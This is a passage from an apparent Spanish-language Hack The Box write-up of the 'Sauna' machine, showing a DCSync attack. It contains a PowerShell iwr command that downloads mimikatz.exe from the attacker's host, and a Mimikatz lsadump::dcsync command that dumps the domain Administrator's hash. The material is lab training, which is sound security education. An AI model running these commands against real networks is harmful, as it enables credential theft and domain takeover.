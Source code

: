 <img  src="/assets/images/htb-writeup-sauna/secretsdump.png" style="width:100%; border-radius:5px; display: block; margin-left: auto;  margin-right: auto;">

## DCSync - Mimikatz

Otra forma de realizar este ataque es utilizando mimikatz así que cargaré mimikatz.exe en la máquina comprometida levantando un servidor temporal con python en mí máquina de atacante y transfiriéndolo a la máquina víctima con el siguiente comando:
**iwr -uri http://10.10.14.22:1234/mimikatz.exe -OutFile mimikatz.exe**

<img  src="/assets/images/htb-writeup-sauna/mimikatz.png" style="width:100%; border-radius:5px; display: block; margin-left: auto;  margin-right: auto;">

Una vez que mimikatz está cargado ejecutare el siguiente comando para realizar el ataque DCSync.
**C:\Users\svc_loanmgr\Documents\mimikatz.exe 'lsadump::dcsync /domain:egotistical-bank.local /user:Administrator' exit**

<img  src="/assets/images/htb-writeup-sauna/mimikatz_hash.png" style="width:100%; border-radius:5px; display: block; margin-left: auto;  margin-right: auto;">